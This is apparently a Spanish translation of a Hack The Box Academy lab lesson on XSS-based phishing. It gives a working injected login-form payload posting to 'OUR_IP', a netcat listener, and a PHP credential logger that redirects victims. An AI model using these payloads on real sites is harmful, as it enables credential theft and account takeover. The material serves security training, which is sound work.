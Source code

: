 Otro tipo muy común de ataque XSS es un ataque de phishing. Los ataques de phishing usualmente utilizan información con apariencia legítima para engañar a las víctimas y que estas envíen su información sensible al atacante. Una forma común de ataques de phishing con XSS es a través de la inyección de formularios de inicio de sesión falsos que envían las credenciales al servidor del atacante. Este, a su vez, puede utilizarlas para iniciar sesión en nombre de la víctima y obtener control sobre su cuenta e información sensible.

Además, si identificamos una vulnerabilidad XSS en una aplicación web de una organización, podemos usar este ataque como un ejercicio de simulación de phishing, lo que también nos ayudará a evaluar la conciencia de seguridad de los empleados de la organización, especialmente si confían en la aplicación vulnerable y no esperan que les cause daño.

---

## XSS Discovery

Comenzamos intentando encontrar la vulnerabilidad XSS en la aplicación web en `/phishing` desde el servidor al final de esta sección. Al visitar el sitio web, vemos que es un visor de imágenes en línea simple, donde podemos ingresar una URL de una imagen, y esta se mostrará:

`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_image_viewer.jpg)

Este tipo de visores de imágenes es común en foros en línea y aplicaciones web similares. Como tenemos control sobre la URL, podemos comenzar utilizando el payload básico de XSS que hemos estado probando. Pero cuando intentamos con ese payload, vemos que nada se ejecuta, y obtenemos el ícono de `dead image url`:

`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_alert.jpg)

Por lo tanto, debemos ejecutar el proceso de XSS Discovery que aprendimos previamente para encontrar un payload XSS que funcione. `Antes de continuar, intenta encontrar un payload XSS que ejecute código JavaScript en la página exitosamente`.

**Consejo:** Para entender qué payload debería funcionar, intenta ver cómo se muestra tu entrada en el código fuente HTML después de agregarla.

---

## Login Form Injection

Una vez que identificamos un payload XSS funcional, podemos proceder al ataque de phishing. Para realizar un ataque de phishing con XSS, debemos inyectar código HTML que muestre un formulario de inicio de sesión en la página objetivo. Este formulario debería enviar la información de inicio de sesión a un servidor donde estamos escuchando, de modo que, cuando un usuario intente iniciar sesión, podamos obtener sus credenciales.

Podemos encontrar fácilmente un código HTML para un formulario de inicio de sesión básico o escribir nuestro propio formulario. El siguiente ejemplo presenta un formulario de inicio de sesión:

```r
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

En el código HTML anterior, `OUR_IP` es la IP de nuestra máquina virtual (VM), que podemos encontrar con el comando (`ip a`) bajo `tun0`. Más tarde estaremos escuchando en esta IP para recuperar las credenciales enviadas desde el formulario. El formulario de inicio de sesión debería verse de la siguiente manera:

```r
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

---

## Cleaning Up

Podemos observar que el campo URL todavía se muestra, lo cual contradice nuestra línea de "`Please login to continue`". Para motivar a la víctima a usar el formulario de inicio de sesión, deberíamos eliminar el campo URL, de modo que piensen que deben iniciar sesión para poder usar la página. Para hacerlo, podemos usar la función JavaScript `document.getElementById().remove()`.

Para encontrar el `id` del elemento HTML que queremos eliminar, podemos abrir el `Page Inspector Picker` presionando [`CTRL+SHIFT+C`] y luego haciendo clic en el elemento necesario:

![Page Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg)

Como vemos tanto en el código fuente como en el texto resaltado, el formulario `url` tiene el id `urlform`:

```r
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

Ahora podemos usar este id con la función `remove()` para eliminar el formulario URL:

```r
document.getElementById('urlform').remove();
```

Una vez que añadimos este código a nuestro JavaScript anterior (después de la función `document.write`), podemos usar este nuevo código JavaScript en nuestro payload:

```r
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Cuando intentamos inyectar nuestro código JavaScript actualizado, vemos que el formulario URL ya no se muestra:

`http://SERVER_IP/phishing/index.php?url=...SNIP...`

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

---

## Credential Stealing

Finalmente, llegamos a la parte en la que robamos las credenciales de inicio de sesión cuando la víctima intenta iniciar sesión en nuestro formulario inyectado. Si intentaste iniciar sesión en el formulario, probablemente recibiste el error `This site can’t be reached`. Esto ocurre porque, como mencionamos antes, nuestro formulario HTML está diseñado para enviar la solicitud de inicio de sesión a nuestra IP, que debería estar escuchando conexiones. Si no estamos escuchando conexiones, obtendremos un error de `site can’t be reached`.

Para resolver esto, podemos iniciar un servidor `netcat` simple y observar el tipo de solicitud que recibimos cuando alguien intenta iniciar sesión a través del formulario. Para hacerlo, podemos empezar a escuchar en el puerto 80 en nuestro Pwnbox de la siguiente manera:

```r
sudo nc -lvnp 80
listening on [any] 80 ...
```

Ahora, intentemos iniciar sesión con las credenciales `test:test` y revisemos el output de `netcat` que obtenemos (no olvides reemplazar OUR_IP en el payload XSS con tu IP real):

```r
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

Como podemos ver, podemos capturar las credenciales en la URL de la solicitud HTTP (/?username=test&password=test). Si alguna víctima intenta iniciar sesión con el formulario, obtendremos sus credenciales.

Sin embargo, dado que solo estamos escuchando con un listener básico de `netcat`, este no manejará la solicitud HTTP correctamente, y la víctima recibiría un error de `Unable to connect`, lo que podría levantar sospechas. Por lo tanto, podemos usar un script básico en PHP que registre las credenciales desde la solicitud HTTP y luego redirija a la víctima a la página original sin ninguna inyección. En este caso, la víctima podría pensar que inició sesión con éxito y usará el visor de imágenes como estaba previsto.

El siguiente script PHP debería hacer lo que necesitamos. Lo escribiremos en un archivo en nuestra VM llamado `index.php` y lo colocaremos en `/tmp/tmpserver/` (no olvides reemplazar `SERVER_IP` con la IP de nuestro ejercicio):

```r
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Ahora que tenemos listo nuestro archivo `index.php`, podemos iniciar un servidor `PHP` para escuchar, que usaremos en lugar del listener básico de `netcat` que usamos anteriormente:

```r
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #en este paso escribimos nuestro archivo index.php
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Intentemos iniciar sesión en el formulario inyectado y veamos qué obtenemos. Observamos que somos redirigidos a la página original del visor de imágenes:

`http://SERVER_IP/phishing/index.php`

![](https://academy.hackthebox.com/storage/modules/103/xss_image_viewer.jpg)

Si revisamos el archivo `creds.txt` en nuestro Pwnbox, vemos que obtuvimos las credenciales de inicio de sesión:

```r
cat creds.txt
Username: test | Password: test
```

Con todo listo, podemos iniciar nuestro servidor PHP y enviar la URL que incluye nuestro payload XSS a nuestra víctima. Una vez que inicien sesión en el formulario, obtendremos sus credenciales y podremos usarlas para acceder a sus cuentas.
